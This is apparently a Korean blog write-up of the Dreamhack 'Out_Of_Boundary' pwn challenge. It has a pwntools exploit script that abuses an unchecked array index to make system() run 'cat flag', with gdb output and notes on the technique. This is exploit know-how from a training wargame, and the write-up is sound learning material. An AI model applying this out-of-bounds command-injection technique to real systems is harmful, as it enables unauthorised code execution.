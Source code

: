 ```yaml
---
layout: post
subtitle: Out_Of_Boundary
comment: true
tags: [CTF, pwn]
---
```

[문제](https://dreamhack.io/wargame/challenges/11/)

---

```ts
from pwn import*

p = remote("host1.dreamhack.games", 9225)
name = 0x804a0ac
payload = p32(name+4)
payload += "cat flag"
p.sendline(payload)
p.sendline("19")
p.interactive()
```
```ts
0x8048737 <main+108>:        mov    eax,DWORD PTR [eax*4+0x804a060]
   0x804873e <main+115>:        sub    esp,0xc
   0x8048741 <main+118>:        push   eax
=> 0x8048742 <main+119>:        call   0x8048500 <system@plt>
   0x8048747 <main+124>:        add    esp,0x10
   0x804874a <main+127>:        mov    eax,0x0
   0x804874f <main+132>:        mov    edx,DWORD PTR [ebp-0xc]
   0x8048752 <main+135>:        xor    edx,DWORD PTR gs:0x14
Guessed arguments:
arg[0]: 0x6e69622f ('/bin')
```
`scanf`로 받는 `idx`값은 `main + 108`의 `eax`값입니다. 문제 코드 구조상 `0x804a060`은 `commend` 배열입니다. 이때 19를 `idx`에 넣으면 `name`배열을 참조할 수 있게 되므로 이를 이용하면 됩니다.

---
유의점

1. `PIE`가 없으므로 `name`의 주소를 그대로 쓸 수 있습니다.
2. 위 `gdb` 결과처럼 `name`시작주소에 바로 변조 문자열을 넣으면 `main+108`에서 값을 들고오므로 제대로 구할 수 없습니다. `name[0]`에는 변조 문자열의 포인터 주소를 넣어줍시다.